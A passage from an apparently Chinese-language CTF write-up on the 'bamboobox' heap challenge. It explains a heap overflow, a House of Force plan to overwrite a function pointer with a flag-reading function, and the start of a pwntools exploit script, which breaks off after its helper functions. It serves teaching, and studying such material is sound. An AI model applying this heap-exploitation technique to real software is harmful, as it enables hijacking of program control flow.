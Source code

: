 需要注意的是，该程序开始时即申请了 0x10 的内存，用来保留**两个函数指针**。

该程序大概就是对于盒子里的物品进行添加和删除

1. 展示盒子里的内容，依次盒子里每一个物品的名字。
2. 向盒子里添加物品，根据用户输入的大小来为每一个物品申请对应的内存，作为其存储名字的空间。但是需要注意的是，这里读取名字使用的是 `read` 函数，读取长度的参数是用户输入的 v2，而 read 的第三个参数是无符号整数，如果我们输入负数，就可以读取任意长度。但是我们需要确保该数值满足`REQUEST_OUT_OF_RANGE` 的约束，所以这里存在**任意长度堆溢出**的漏洞。但即使这样，第一次的时候也比较难以利用，因为初始时候堆的 top chunk 的大小一般是不会很大的。
3. 修改物品的名字，根据给定的索引，以及大小，向指定索引的物品中读取指定长度名字。这里长度由用户来读入，也存在**任意长度堆溢出**的漏洞。
4. 删除物品，将对应物品的名字的大小置为0，并将对应的 content 置为 NULL。

此外，由于该程序主要是一个演示程序，所以程序中有一个 magic 函数，可以直接读取 flag。

### 利用

由于程序中有个 magic 函数，所以我们的核心目的是覆盖某个指针为 magic 函数的指针。这里，程序在开始的时候申请了一块内存来存储两个函数指针，hello_message用于程序开始时使用，goodbye_message 用于在程序结束时使用，所以我们可以利用覆盖 goodbye_message 来控制程序执行流。具体思路如下

1. 添加物品，利用堆溢出漏洞覆盖 top chunk 的大小为 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆盖 goodbye_message 为magic 函数地址来控制程序执行流

**这里需要注意的是，在触发top chunk 转移到指定位置时，所使用的大小应该合适，以便于设置新的 top chunk 大小，从而可以绕过下一次分配top chunk 的检测。**

exp 如下

```shell
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./bamboobox')
context.log_level = 'debug'


def additem(length, name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def modify(idx, length, name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


def show():
    r.recvuntil(":")
    r.sendline("1")

```